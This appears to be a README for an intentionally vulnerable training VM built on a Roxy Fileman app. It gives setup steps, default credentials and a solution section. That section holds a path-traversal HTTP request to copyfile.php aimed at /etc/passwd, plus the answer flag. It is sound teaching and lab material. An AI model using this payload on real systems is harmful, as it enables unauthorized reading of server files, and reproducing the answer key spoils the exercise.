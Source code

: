 # Roxy (traversal-2)

Download VM:
* Credentials: ```user/user```, ```root/123456```
* SSH disabled
* Debian 11, 2 GB disk

# Agenda

You have to find out how files are uploaded to the server, where they are stored, and how to download them. You will need your creative thinking to find the vulnerability in the functionality of downloading files.

# Setup

*Requirements:*  **2 GB** of disk space for VM.

Put all files in **source** to folder **/var/www/html/**


```bash
sudo apt-get update --allow-releaseinfo-change
sudo apt-get install nginx php-fpm  php-mbstring php-gd sudo

sudo chown www-data:www-data -R /var/www/html/
sudo chmod 755 -R /var/www/html/*
```



#### Nginx configure

Change **/etc/nginx/sites-enabled/default** (php-fpm version may be different):

```
server {
        listen 80 default_server;
        listen [::]:80 default_server;

        root /var/www/html;
        index index.php;
        server_name _;

        location / {
                try_files $uri $uri/ =404;
        }
        location ~ \.php$ {
                include snippets/fastcgi-php.conf;
                fastcgi_pass unix:/run/php/php7.3-fpm.sock;
        }

}
```

Reload nginx config
```
sudo service nginx restart
#sudo systemctl restart nginx
```


## How to check that everything works ?

1. Open the main page. You should see the working app. 


## Solution

Path traversal.

https://www.exploit-db.com/exploits/46085

1. Copy **private** folder to **Uploads**


```
POST /php/copyfile.php?f=%2FUploads%2Froxy-fileman-logo.gif&n=%2FUploads%2FImages HTTP/1.1


f=%2FUploads%2F/../../../../../../../../etc/passwd&n=%2FUploads%2FImages
```

2. Flag in **private** folder:
```
Admin password is qX83TyWhMcEHE3K.

This is last time Dave, install keepass ...
```